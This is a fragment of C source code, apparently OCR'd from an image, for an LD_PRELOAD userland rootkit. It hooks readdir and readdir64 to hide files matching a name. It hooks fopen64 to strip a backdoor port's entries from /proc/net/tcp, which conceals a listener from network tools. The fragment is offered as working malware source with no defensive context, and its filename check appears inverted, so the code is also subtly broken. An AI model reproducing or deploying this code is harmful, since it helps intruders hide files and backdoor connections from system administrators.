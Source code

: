 ```c
}

struct dirent *(*old_readdir)(DIR *dir);
struct dirent *readdir(DIR *dirp)
{
    old_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *dir;

    while (dir = old_readdir(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}


struct dirent64 *(*old_readdir64)(DIR *dir);
struct dirent64 *readdir64(DIR *dirp)
{
    old_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *dir;

    while (dir = old_readdir64(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}

FILE *(*orig_fopen64)(const char *pathname, const char *mode);
FILE *fopen64(const char *pathname, const char *mode)
{
	orig_fopen64 = dlsym(RTLD_NEXT, "fopen64");

	char *ptr_tcp = strstr(pathname, "/proc/net/tcp");

	FILE *fp;

	if (ptr_tcp != NULL)
	{
		char line[256];
		FILE *temp = tmpfile64();
		fp = orig_fopen64(pathname, mode);
		while (fgets(line, sizeof(line), fp))
		{
			char *listener = strstr(line, KEY_PORT);
			if (listener != NULL)
			{
				continue;
			}
			else
			{
				fputs(line, temp);
			}
		}
		return temp;
	}

	fp = orig_fopen64(pathname, mode);
	return fp;
}
```